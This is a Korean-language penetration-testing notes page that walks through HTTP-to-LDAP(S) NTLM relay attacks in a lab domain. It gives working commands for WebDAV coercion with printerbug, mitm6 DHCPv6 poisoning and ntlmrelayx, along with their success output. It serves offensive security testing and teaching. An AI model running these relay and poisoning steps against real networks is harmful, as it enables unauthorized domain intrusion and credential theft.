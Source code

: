 # HTTP to LDAP - TODO

HTTP to LDAP(S) 는 LDAP Signing 설정에 있어서 좀 더 자유로운 편이기 때문에 자주 사용되는 릴레이 공격이다. HTTP 트래픽을 받아올 때는 MITM6를 통한 DHCPv6 포이즈닝 혹은 Webdav 서비스를 이용한 강제 인증 (Petitpotam, Print Spooler) 등을 이용한다.&#x20;

* HTTP -> LDAP: LDAP Signing Disabled/Enabled 공격가능.  Required 일 시 공격 불가능.&#x20;
* HTTP -> LDAPS: LDAP Signing Disabled/Enabled/Required 모두 공격 가능. EPA (Extended Protection for Authentication) 사용시 공격 불가능.

HTTP to LDAP(S) 에는 크게 두 가지 공격 방식이 있다.&#x20;

1. Webdav + 강제인증: 타겟 서버가 Webdav 서비스를 실행중일 때 강제 인증을 통해 Webdav 서비스로부터 인증 트래픽을 받아낸 뒤, 이를 릴레이한다.&#x20;
2. MITM6: 타겟 서버가 DHCPv6 에 취약하다면  ipv6 DNS 서버를 스푸핑 한 뒤, ipv6 관련된 트래픽을 공격자 서버로 보낸다. 그 뒤, 이 트래픽을 릴레이한다.&#x20;

\#1 번의 경우 도메인 유저 맥락이 필요하기 때문에 도메인 장악 보다는 Webdav 호스트의 LDAP 특성을 조작해 장악하는 방식으로, 횡적 이동에 자주 사용된다.&#x20;

\#2 번의 경우 아무런 유저 계정 정보없이 머신 계정 생성 및 LDAP 정보 덤프가 가능하기 때문에 도메인 진입에 자주 사용된다.&#x20;

### 1. Webdav 강제 인증&#x20;

```
# 1. Webdav 확인 
webclientservicescanner choi.local/low:'Password123!'@192.168.40.0/24

# 2. Webdav + Printerbug 강제 인증 
python3 printerbug.py choi.local/low:'Password123!'@192.168.40.151 kali@80/choiredteam 

# 3. ntlmrelayx
./ntlmrelayx.py -t ldaps://192.168.40.150 --no-da --no-acl -smb2support --no-dump

[*] HTTPD(80): Connection from 192.168.40.151 controlled, attacking target ldaps://192.168.40.150
[*] HTTPD(80): Authenticating against ldaps://192.168.40.150 as WKSTN01/ADMINISTRATOR SUCCEED
```



### 2. MITM6  &#x20;

```
# 1. MITM6 세팅 
python3 mitm6.py -d <도메인> --ignore-nofqdn

# 1-1. 특정 호스트만 화이트리스트 처리 후 mitm6 공격 
python3 mitm6.py -d <도메인> --ignore-nofqdn -hw <호스트 FQDN>
python3 mitm6.py -d choi.local --ignore-nofqdn -hw wkstn01.choi.local

# 2. ntlmrelayx 세팅 
python3 ntlmrelayx.py -t ldap://<ip> -wh <wpad-이름-아무거나> -6 --no-da --no-acl
python3 ntlmrelayx.py -t ldap://192.168.40.150 -wh choipad -6 --no-da --no-acl

# ntlmrelayx 공격 결과 
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from ::ffff:192.168.40.151 controlled, attacking target ldap://192.168.40.150
[*] HTTPD(80): Authenticating against ldap://192.168.40.150 as CHOI/ADMINISTRATOR SUCCEED
[*] Domain info dumped into lootdir!

```

ntlmrelayx 의 기본적인 LDAP 공격은 도메인 어드민 유저를 생성한다거나 ACL 공격을 함부로 진행하는 등의 고객사 네트워크에 사용하기엔 좀 위험한 공격들이 있다. 따라서 `--no-da` 와 `--no-acl` 등의 플래그를 이용해서 기본 공격들을 진행하지 않는다.&#x20;

위 실습에서는 오로지 도메인 정보만 덤프하는 아주 기본적인 공격을 진행했다. 사실상 BloodHound 를 실행한 것과 같은 공격이다.&#x20;



### MISC&#x20;

* DHCPv6 포이즈닝 관련 테스트를 할때는 nic을 껐다 켰다 하는게 제일 빠른 것 같다.&#x20;
* wpad 관련된 공격에서는 컴퓨터를 재부팅하거나 재로그인 하는 것이 도움될 때가 있다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://github.com/Hackndo/WebclientServiceScanner" %}

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/" %}
